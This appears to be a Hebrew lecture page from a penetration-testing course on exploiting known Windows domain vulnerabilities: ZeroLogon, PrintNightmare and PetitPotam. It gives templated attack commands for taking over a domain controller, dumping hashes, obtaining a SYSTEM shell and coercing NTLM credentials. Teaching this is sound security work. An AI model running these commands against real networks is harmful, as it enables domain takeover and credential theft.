

repository: AmitPinchasi/amittech · page: בודק-חדירות/5 - תקיפת דומיין בסיסית/5.7 - הרצת חולשות 1day/5.7 - הרצת חולשות 1day - הרצאה/index.html · generator: mkdocs

### **הרצת חולשות 1-Day (זירו-לוגון, ועוד)**

חולשות **1-Day** הן פגיעויות מוכרות שכבר פורסמו ותוקנו על ידי היצרן, אך עדיין ניתן לנצלן במערכות שלא עודכנו. פגיעויות אלו מספקות גישה, הרצת קוד או הרשאות גבוהות בתוך הרשת. אחת הדוגמאות הבולטות היא **ZeroLogon (CVE-2020-1472)**, המאפשרת השתלטות מלאה על **Domain Controller** תוך שניות.

### חולשת  **ZeroLogon (CVE-2020-1472) - השתלטות על DC**

חולשת **ZeroLogon** היא חולשה בפרוטוקול **Netlogon** של Windows, המאפשרת לתוקף לאמת את עצמו כלוקאלי **ללא צורך בסיסמה** ולשנות את סיסמת ה-**Domain Controller (DC)**.  
זוהי חולשת **Privilege Escalation קריטית**, המאפשרת השתלטות מלאה על הדומיין.

#### **תנאים לexploit החולשה**

- חיבור לרשת הפנימית או **גישה ישירה ל-DC באמצעות SMB/RPC**.
    
- מערכת **Windows Server 2008-2019** שלא עודכנה עם הפאץ' מאוגוסט 2020.
    

#### **הexploit ZeroLogon בפועל**

נשתמש בסקריפט `CVE-2020-1472.py` של `impacket`:

```bash
python3 zeroLogon.py <DC-NAME> <DC-IP>
```

לאחר הרצה מוצלחת, התוקף **משנה את הסיסמה של חשבון המכונה של ה-DC**, מה שמאפשר ביצוע `DCSync` להוצאת כל הסיסמאות.

#### **שחזור הסיסמה לאחר התקיפה**

לאחר שינוי סיסמת המכונה, הדומיין עלול לקרוס. לכן, כדאי לגבות את הסיסמה מראש עם `secretsdump.py` (גם סקריפט בimpacket)

```bash
secretsdump.py administrator@<DC-IP> -hashes <NTLM-HASH>
```

לאחר התקיפה, ניתן לשחזר את הסיסמה:

```bash
netdom resetpwd /Server:<DC-NAME> /UserD:<DOMAIN>\Administrator /PasswordD:*
```

### חולשת  **PrintNightmare (CVE-2021-1675 & CVE-2021-34527) - הרצת קוד כ- SYSTEM**

חולשה במנהל ההדפסה של Windows המאפשרת **Privilege Escalation והרצת קוד ב-DC**.

#### **הexploit PrintNightmare**

```bash
python3 CVE-2021-1675.py <DOMAIN>/<USER>@<DC-IP>
```

לאחר הרצה מוצלחת, מתקבל **Shell עם הרשאות SYSTEM ב-DC**.

### חולשת **PetitPotam (CVE-2021-36942) - חטיפת תעודות NTLM והשגת גישה ל-DC**

חולשה בפרוטוקול **MS-EFSRPC**, המאפשרת לתוקף לגרום לשרתים לשלוח **תעודות NTLM** של ה-DC לתוקף.

#### **הexploit PetitPotam לגניבת קרדנציאליים**

```bash
python3 petitpotam.py -u <USER> -p <PASSWORD> -d <DOMAIN> -t <DC-IP>
```
